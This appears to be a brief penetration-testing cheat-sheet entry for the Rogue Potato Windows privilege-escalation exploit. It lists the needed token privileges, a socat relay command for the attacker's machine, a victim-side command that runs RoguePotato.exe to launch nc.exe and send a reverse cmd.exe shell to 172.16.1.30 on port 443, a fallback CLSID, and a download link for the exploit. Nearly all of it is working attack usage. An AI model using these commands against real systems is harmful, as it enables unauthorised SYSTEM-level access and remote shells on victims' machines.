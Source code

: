 # Name
Rogue Potato

## Usage
```
#Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

#On Attacker:
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999

#On Victim:
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
#If fails:
-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"
```

## Source
https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.zip
